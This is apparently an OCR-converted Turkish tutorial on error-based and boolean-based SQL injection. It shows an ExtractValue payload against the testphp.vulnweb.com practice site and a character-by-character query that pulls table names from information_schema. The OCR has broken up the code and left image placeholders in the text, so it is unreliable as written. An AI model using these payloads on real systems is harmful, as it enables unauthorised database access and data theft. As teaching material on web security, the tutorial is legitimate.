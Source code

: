 ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.076.png)

2- Error-based SQLi

Veritabanında bir syntax hatası olduğunda try — exception koymadıysak, database’den dönen hata mesajını karşımızda görebiliyorsak veri çekmenin güzel bir yöntemi daha var.

SQL injection öğrenirken yanımızda her zaman için bir egzersiz alanı bulunması gerektiğini dile getirmiştik. Biz de bunu mysql ile sağlamaktayız.

Örnek bir mysql yardımcı fonksiyonu — ExtractValue() <https://dev.mysql.com/doc/refman/8.0/en/xml-functions.html>

![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.077.png) bu fonksiyonun yaptığı işlem parametre olarak xml alıp bu xml’i parse edip belirtilen filtreye göre değer döndürülmesini sağlamaktadır.

Önümüze çıkan hata mesajı üzerinden de veri çıkartabiliriz:

ht t p: / / t est php. vul nweb. com/ l i st pr oduct s. php?cat =ext r act val ue( ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.078.png)r and( ) ,  concat ( 1, ( SELECT  dat abase( ) ) ) ) ;

3- Boolean-based SQL Injection

Peki kod yapısında bir değişiklik yaparsak ne değişir?

i f  r esul t . si ze( )  >  0; ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.079.png)     pr i nt ( "haber  var ") el se:

`     `pr i nt ( "haber  yok")

Her şey değişmiş olur. Artık bize geri dönüş yaptığında SELECT sorgusu bir sonuç yazdırmayacaktır.

quer y  =  SELECT  \*  FROM haber l er  WHERE ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.080.png)

i d=  1  and  SUBSTRI NG(

`     `( SELECT  t abl e\_name  FROM i nf or mat i on\_schema. t abl es  WHERE      t abl e\_schema=dat abase( )  LI MI T  1, 1)  #user s

`     `, 1

`     `, 1

) =' a'

<ht ml > HABER  VAR </ ht ml >

Bu şekilde bir sorgulama yapabiliriz.

Burada bir deneme yanılma yöntemi ile veritabanında aradığımız tablo isimlerini kolayca bulabilmekteyiz.

i f  r esul t . si ze( )  >  0; ![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.081.png)     pr i nt ( "haber  var ") el se:

`     `pr i nt ( "haber  yok")

Burada deneme yanılma yöntemiyle ilerlediğimizde örneğin ingiliz alfabesini düşünürsek 26 adet küçük harf, 26 adet büyük harf, 10 adet rakam, 8 adet de özel karakter olduğu için 70 adet verimiz vardır. Eğer şanslı değilsek bir karakteri bulmak için 70 defa deneme yapmamız gerekebilir. Peki bunu nasıl hızlandırabiliriz?
